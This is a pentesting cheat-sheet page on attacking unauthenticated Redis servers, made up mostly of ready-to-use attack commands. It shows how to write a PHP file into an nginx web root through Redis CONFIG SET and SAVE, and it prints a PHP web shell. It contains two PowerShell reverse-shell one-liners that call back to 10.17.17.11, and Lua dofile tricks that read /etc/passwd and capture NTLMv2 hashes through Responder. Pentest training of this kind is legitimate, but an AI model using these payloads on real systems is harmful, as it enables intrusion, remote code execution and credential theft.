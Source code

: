 # Redis
default port is 6379, use `redis-cli -h <IP>` to remote access and use `info` to get database info.

Some interesting commands are `client list` and `CONFIG GET *` .

Inside Redis the **databases are numbers starting from 0**. You can find if anyone is used in the output of the command `info` inside the "Keyspace" chunk:

![](Redis/image.png)

**Dump the database with npm** [**https://www.npmjs.com/package/redis-dump**](https://www.npmjs.com/package/redis-dump) 

`**root@Urahara:~# redis-cli -h 10.85.0.52**`  
`**10.85.0.52:6379> config set dir /usr/share/nginx/html**`  
`**OK**`  
`**10.85.0.52:6379> config set dbfilename redis.php**`  
`**OK**`  
`**10.85.0.52:6379> set test "<?php phpinfo(); ?>"**`  
`**OK**`  
`**10.85.0.52:6379> save**`  
`**OK**`

```text-plain
<?php echo system($_GET['cmd']); ?>
```

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) 

```text-plain
set x "\r\n\r\npowershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.17.17.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\r\n\r\n"
```

[https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/vulnnetactive.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/vulnnetactive.md) 

The Redis instance was running version 2.8, and did not require authentication. However, this version of Redis contains a 'vulnerability' where you can use `'dofile'` in the LUA sandbox, allowing you to access files or network shares. E.g.   
`EVAL "dofile('/etc/passwd')" 0` would work on a linux machine.  
For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.

Setting up responder from this repo [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder) , then using something like `EVAL "dofile('//10.17.17.11//share')" 0` will catch an NTMLv2 hash.  
 

```text-plain
$client = New-Object System.Net.Sockets.TCPClient('10.17.17.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```